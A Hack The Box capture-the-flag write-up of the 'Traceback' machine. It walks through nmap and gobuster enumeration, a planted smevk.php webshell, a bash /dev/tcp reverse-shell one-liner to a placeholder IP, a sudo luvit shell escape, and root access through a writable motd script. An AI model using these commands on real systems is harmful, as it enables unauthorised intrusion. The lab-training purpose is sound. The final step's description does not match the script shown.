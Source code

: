 ```yaml
---
path: "/htb-traceback"
title: "Hack The Box - Traceback"
date: "07/31/2020"
featuredImage: ../../images/traceback.png
tags: ["pentesting", "hackthebox", "linux"]
---
```


We'll start things off with a NMAP scan. The scan reveals only 2 ports are opened.

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Viewing the page hosted on port 80 we see an a message that gives us an hint toward a foothold. There is already a webshell running.

![landingpage](../../images/traceback/landingpage.png)

Next step we can enumerate this website with gobuster. Using the "common" and "big" dirb word-list yielded no result.

Looking up the moniker used to signed the page (Xh4H), we can find a github repo of a user going by the same name that contains a list of web shells. We can generate a list of all the shells and try them individually.

```
/webshells.txt
alfa3.php
alfav3.0.1.php
andela.php
bloodsecv4.php
by.php
c99ud.php
cmd.php
configkillerionkros.php
jspshell.jsp
mini.php
obfuscated-punknopass.php
punk-nopass.php
punkholic.php
r57.php
smevk.php
wso2.8.5.php
```

I am kidding of course, we will pass this list to gobuster.

```
kali@kali:~/HTB/Traverxec$ gobuster dir -u http://traceback.htb/ -w ./webshells.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://traverxec.htb/
[+] Threads:        10
[+] Wordlist:       ./webshells.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/07/28 03:08:05 Starting gobuster
===============================================================
/smevk.php (Status: 200)
===============================================================
```

The web shell being used is revealed to be "smevk.php". With this at hand we can navigate to the web shell and login with the default username and password.

![webshell login](../../images/traceback/login.png)

We can use this web-shell to initiate a reverse shell. Assuming netcat is already listening, we can execute the following command.

`nohup bash -c 'bash -i >& /dev/tcp/<your ip here>/<port here> 0>&1'`

![webshell](../../images/traceback/webshell.png)

When we get the shell we see it is under the user `webadmin` . From here we can start poking around. In the home directory of this user there is a text file that gives an hint toward privilege escalation.

```
webadmin@traceback:/home/webadmin$ ls
ls
note.txt
webadmin@traceback:/home/webadmin$ less note.txt
less note.txt
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
webadmin@traceback:/home/webadmin$
```

This bit led me to check what binaries the user webadmin can execute as other users

```
sudo -l
Matching Defaults entries for webadmin on traceback:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
(sysadmin) NOPASSWD: /home/sysadmin/luvit
webadmin@traceback:/home/webadmin$
```

luvit is a cli tool that is used to execute lua script. Since we can execute it as another user user can user it to execute a shell with the owning user's context; in this case sysadmin.

```
webadmin@traceback:/home/webadmin$ sudo -u sysadmin /home/sysadmin/luvit -e 'os.execute("/bin/sh")'
<min /home/sysadmin/luvit -e 'os.execute("/bin/sh")'
sh: turning off NDELAY mode
ls
note.txt
cd ..
ls
sysadmin
webadmin
cd sysadmin
ls
luvit
user.txt
id
uid=1001(sysadmin) gid=1001(sysadmin) groups=1001(sysadmin)
```

Moving on now to the root flag. For a better shell experience you can add a public key and then ssh into the box. For enumeration at this point, I used linpeas and pspy. pspy reveals a cp operation that happens periodically into /etc/update-motd.d/

The content of this directory are executed as root; explained here.

> Executable scripts in /etc/update-motd.d/\* are executed by pam_motd(8) as the root user at
>   each login, and this information is concatenated in /run/motd.dynamic. The order of
>   script execution is determined by the run-parts(8) --lsbsysinit option (basically
>   alphabetical order, with a few caveats).

The goal here is to get a bash script into the source directory for it to be copied into `/etc/update-motd.d/`

```
020/07/28 22:45:31 CMD: UID=0    PID=1668   | /bin/cp /var/backups/.update-motd.d/00-header /var/backups/.update-motd.d/10-help-text /var/backups/.update-motd.d/50-motd-news /var/backups/.update-motd.d/80-esm /var/backups/.update-motd.d/91-release-upgrade /etc/update-motd.d/
```

For this exploit, I created a crude bash script that periodically write a reverse shell command to a file in the source directory.

```
for i in `seq 1 20`
do
echo 'cat /root/root.txt' >> /etc/update-motd.d/00-header && cat /etc/update-motd.d/00-header
sleep 3
done
```

This command is executed as root whenever a user ssh into the box and we get a shell.

```
kali@kali:~/HTB/Traceback$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.181] 54158
bash: cannot set terminal process group (3013): Inappropriate ioctl for device
bash: no job control in this shell
root@traceback:/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@traceback:/# cd /root
cd /root
root@traceback:/root# ls
ls
root.txt
root@traceback:/root#
```
